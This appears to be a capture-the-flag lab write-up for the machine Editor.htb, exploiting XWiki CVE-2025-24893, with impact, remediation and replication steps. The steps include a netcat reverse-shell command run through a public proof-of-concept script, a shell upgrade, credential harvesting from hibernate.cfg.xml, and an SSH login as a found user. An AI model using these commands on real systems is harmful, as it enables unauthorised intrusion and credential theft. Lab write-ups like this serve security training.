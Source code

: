 

CVE-2025-24893 - Remote Code Execution

## Description

A vulnerability in Editor.htb allows unauthenticated remote code execution (RCE). An unauthenticated attacker can execute code on the server remotely, potentially gaining control of the affected application host.

## Impact

High — Successful exploitation can lead to full compromise of the application and access to sensitive data on the host. This violates the confidentiality, integrity, and availability (CIA) of affected systems and may allow attacker persistence, data exfiltration, or further lateral movement.

## Likelihood

High — Exploitation requires no authentication and can be performed remotely, increasing the probability of active exploitation.


## Remediation 
Upgrade XWiki to 15.10.11, 16.4.1, or any later release from the vendor. This is the official fix for CVE-2025-24893.

## Evidence 
### Replication steps 

 <img src="images/editor_version.png" class="editors" alt="editor">

 From the login page a version is clearly displayed. Research shows vulnerablity for that version https://nvd.nist.gov/vuln/detail/CVE-2025-24893. Google CVE-2025-24893 PoC and github is found. 

 1. Download CVE-2025-24893.py
 2. start listening nc -lvnp port
 3. execute `python3 CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc ip 9001 -e /bin/bashw`
 4. nc terminal will start rce 
 5. spawn shell - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
 6. enumerate files on webserver will discover user oliver 
 <img src="images/oliver_found.png" class="editors" alt="user found">









 7. Google files on server and find hibernate.cfg.xml which stores XWiki data 
 8. find and open hibernate.cfg.xml
 9. Will see passwords used to login
10. ssh as oliver with password and one will be successful  `ssh oliver@IP`













